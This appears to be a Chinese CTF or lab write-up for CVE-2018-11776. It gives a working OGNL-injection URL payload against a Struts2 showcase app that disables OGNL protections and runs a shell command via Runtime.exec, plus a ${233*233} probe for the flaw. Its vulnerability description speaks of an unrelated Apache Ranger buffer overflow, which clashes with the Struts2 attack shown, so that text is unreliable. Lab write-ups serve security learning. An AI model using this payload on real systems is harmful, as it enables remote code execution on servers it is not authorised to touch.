



# Ranger 远程代码执行漏洞（CVE-2018-11776）by [anonymity3712](https://github.com/anonymity3712)

## 漏洞描述

Apache Ranger 是美国阿帕奇（Apache）软件基金会的一套为 Hadoop集群实现全面安全措施的架构，它针对授权、结算和数据保护等核心企业安全要求，提供中央安全政策管理。Unix Authentication Service 是其中的一个身份验证服务组件。
Apache Ranger 1.2.0 之前版本中的 Unix Authentication Service 存在基于栈的缓冲区溢出漏洞，该漏洞源于程序没有正确的执行边界检查。远程攻击者可通过发送特制的请求利用该漏洞在系统上执行任意代码。

## writeup 

访问靶机地址 http://靶机IP/struts2-showcase/



构造如下参数的访问URL 
```
http://靶机IP/struts2-showcase/$%7B233*233%7D/actionChain1.action
```
利用BurpSuite抓包并改包，Go得到下图所示结果，说明存在漏洞。可以看到，233X233的结果已经在Location头中返回。 



构造poc代码
```
/struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B'struts.valueStack'%5D.context).(%23cr%3D%23ct%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec('ls%20/tmp')).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action
```
替换掉请求内容



成功获取到flag文件

